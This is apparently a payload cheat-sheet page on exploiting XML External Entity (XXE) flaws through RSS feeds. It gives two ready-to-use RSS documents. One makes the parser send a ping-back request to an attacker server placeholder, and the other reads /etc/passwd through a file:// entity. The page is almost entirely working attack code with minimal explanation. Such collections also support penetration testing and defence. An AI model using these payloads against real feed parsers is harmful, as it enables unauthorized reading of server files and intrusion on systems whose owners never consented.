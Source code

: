 ## RSS - XEE

Valid XML with RSS format to exploit an XXE vulnerability.

### Ping back

Simple HTTP request to attackers server

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "http://<AttackIP>/rssXXE" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>XXE Test Blog</title>
<link>http://example.com/</link>
<description>XXE Test Blog</description>
<lastBuildDate>Mon, 02 Feb 2015 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>Test Post</description>
<author>author@example.com</author>
<pubDate>Mon, 02 Feb 2015 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

### Read file

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```
